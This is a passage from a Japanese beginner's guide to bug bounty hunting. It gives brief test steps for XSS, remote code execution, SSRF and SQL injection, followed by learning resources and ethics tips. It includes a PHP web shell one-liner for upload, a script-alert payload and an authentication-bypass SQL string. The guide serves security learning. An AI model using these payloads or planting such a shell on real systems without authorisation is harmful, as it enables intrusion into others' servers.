 例：  
`<script>alert('Test')</script>` を検索ボックスに入力  
アラートが出れば脆弱性あり  

### 例2：リモートコード実行（RCE）
1. 入力箇所を探す  
2. ファイルアップロードテスト  
3. コマンド実行  
```php
<?php system($_GET['cmd']); ?>
```
4. 出力確認  
5. 報告  

例：  
`shell.php` に `<?php phpinfo(); ?>` を記述しアップロード  
`/uploads/shell.php` にアクセス  

### 例3：サーバサイドリクエストフォージェリ（SSRF）
1. URLパラメータ特定  
2. 悪意あるURL注入  
3. レスポンス確認  
4. 報告  

例：  
`?url=http://localhost` に変更  

### 例4：SQLインジェクション（SQLi）
1. 入力フィールド特定  
2. ペイロード注入  
```sql
' OR '1'='1
```
3. レスポンス確認  
4. 報告  

例：  
`admin' OR '1'='1` と入力  
ログインできたら脆弱性あり  

---
## ## ステップ5：コミュニティから学ぶ
- **Write-Up**
- **フォーラムやDiscord**
- **ブログ・動画**
  - Security Weekly
  - The Bug Bounty Hub
  - LiveOverflow

--
## ## バグバウンティ成功のコツ
1. **スコープ理解**  
2. **最新情報を追う**  
3. **倫理的に行動**  
4. **記録を残す**  
5. **自動化の使い所を見極める**
